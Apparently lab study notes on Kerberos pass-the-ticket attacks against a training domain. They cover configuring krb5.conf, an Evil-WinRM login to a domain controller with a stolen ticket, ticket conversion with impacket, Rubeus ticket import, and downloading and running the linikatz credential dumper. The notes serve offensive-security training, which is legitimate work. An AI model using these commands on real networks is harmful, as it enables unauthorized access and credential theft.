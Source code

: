 ```bash
# Administrative Server for your Kerberos Realm
# DC01
```
In case the package krb5-user is already installed, we need to change the configuration file /etc/krb5.conf to include the following values:
```bash
cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```
## Using Evil-WinRM with Kerberos
```bash
proxychains evil-winrm -i dc01 -r inlanefreight.htb
...
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```
## Ticket convertor
If we want to use a ccache file in Windows or a kirbi file in a Linux machine, we can use impacket-ticketConverter to convert them. 
```bash
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
## Importing Converted Ticket into Windows Session with Rubeus
```cmd
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
<...>
dir \\dc01\julio
```
## Linikatz
https://github.com/CiscoCXSecurity/linikatz
It's like #Mimikatz for linux.
```bash
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh

<...>
<ticket information>
<...>

```
